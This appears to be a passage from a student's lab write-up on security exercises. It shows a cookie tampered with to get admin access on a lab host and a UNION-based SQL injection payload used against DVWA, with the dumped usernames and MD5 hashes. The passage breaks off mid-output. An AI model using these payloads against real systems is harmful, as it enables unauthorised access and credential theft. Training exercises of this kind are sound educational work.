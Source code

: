 # Exercise 4

> [!exercise]+ Exercise 4
> Access `http://192.168.56.113:8081/admin.php` to get the secret!
> 
> **Answer:**
> I visited the page and clicked on the request button, which revealed the hint: `"Sorry, only superadmins are allowed to see the secret."` This led me to inspect the cookies via the browser’s developer tools.
> 
> I adjusted the `superuser` cookie to `true` and clicked on the request button again:
> 
> ```
> Welcome Super User! Here is the secret: csf2021_{client-postbox-amid}
> ```
> 
> ![[Pasted image 20240502052455.png]]


<div style="page-break-after: always;"></div>

# Exercise 5

> [!exercise]+ Exercise 5
> When on the high-security setting of DVWA, go to the SQL injection section and attempt to exploit the vulnerability. A helpful hint is to examine the source code present on the page. Retrieve the hash associated with the user ‘1337’ and also convert the hash to its plaintext form. Explain the process of exploiting the vulnerability, identify the type of hash obtained, and describe the method used to convert the hash to plaintext.
> 
> **Answer:**
> 
> I started off by looking at the PHP source code of the SQL Injection page. I noticed that the query was directly incorporating user inputs via session variables into an SQL command. This configuration was particularly vulnerable to SQL injection ... especially if those session variables could be altered!
> 
> ```
> a' UNION SELECT user, password FROM users -- -&Submit=Submit
> ```
> 
> I injected into the session variable to manipulate the SQL query. This injection effectively combined a falsified SQL command with the original, intended to pull user names and passwords directly from the database.
> 
> ```
> ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
First name: admin  
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: gordonb  
>Surname: e99a18c428cb38d5f260853678922e03
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: 1337  
>Surname: 8d3533d75ae2c3966d7e0d4fcc69216b
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: pablo  
>Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  